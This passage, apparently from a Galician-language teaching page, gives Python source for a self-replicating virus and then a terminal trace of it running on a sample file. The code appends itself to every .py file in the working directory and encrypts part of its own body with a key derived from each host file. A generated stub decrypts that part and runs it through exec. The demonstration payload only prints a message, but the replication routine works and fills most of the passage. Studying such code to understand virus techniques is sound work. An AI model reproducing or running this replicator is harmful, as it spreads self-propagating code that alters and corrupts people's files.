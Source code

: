```python
        elif caracter.islower():
            texto_cifrado += chr((ord(caracter) + clave - 97) % 26 + 97)
        else:
            texto_cifrado += caracter
    return texto_cifrado


def infectar(virus):
    import os
    for arquivo in os.listdir("."):
        if arquivo.endswith(".py"):
            script = open(arquivo, "r+")
            texto_script = script.read()
            if "def calcula_clave" not in texto_script:
                parte_en_claro = virus[:541]
                parte_a_cifrar = virus[541:]
                clave = calcula_clave(texto_script)
                parte_crifrada = cifra(parte_a_cifrar, clave)
                script.write(parte_en_claro)
                descrifrador = "import sys" + chr(10) + "portador = open(sys.argv[0], " + chr(34) + "r" + chr(34) + ")" + chr(10) + "texto_portador = portador.read()" + chr(10) + "portador.close()" + chr(10) + "parte_sin_cifrar = texto_portador[texto_portador.find(" + chr(34) + "def calcula_clave" + chr(34) + "):texto_portador.find(" + chr(34) + "def calcula_clave" + chr(34) + ")+541]" + chr(10) + "clave = calcula_clave(texto_portador)" + chr(10) + "texto_descifrado = descifra(" + chr(34) + chr(34) + chr(34) + parte_crifrada + chr(34) + chr(34) + chr(34) + ", clave)" + chr(10) + "exec(texto_descifrado)" + chr(10) + "executa(parte_sin_cifrar + texto_descifrado)"
                script.write(descrifrador)
            script.close()


def payload():
    print("Fuches infectado")


def executa(virus):
    infectar(virus)
    payload()


import sys
portador = open(sys.argv[0], "r")
texto_portador = portador.read()
portador.close()
virus = texto_portador[:2244]
executa(virus)
```

Se executamos este código nun cartafol con onde se atope algún outro ficheiro cuxa extensión é .py obterase a seguinte 
traza:
```shell
probasvx@probasvx:~/virus2$ ls -las
total 16
4 drwxr-xr-x  2 probasvx probasvx 4096 Dec  9 15:59 .
4 drwxr-xr-x 21 probasvx probasvx 4096 Dec  9 12:04 ..
4 -rw-r--r--  1 probasvx probasvx   20 Dec  9 15:59 Ola.py
4 -rw-r--r--  1 probasvx probasvx 2385 Dec  9 15:59 virus.py
probasvx@probasvx:~/virus2$ cat Ola.py 
print("Ola mundo!")
probasvx@probasvx:~/virus2$ python3 virus.py 
Fuches infectado
probasvx@probasvx:~/virus2$ ls -las
total 16
4 drwxr-xr-x  2 probasvx probasvx 4096 Dec  9 15:59 .
```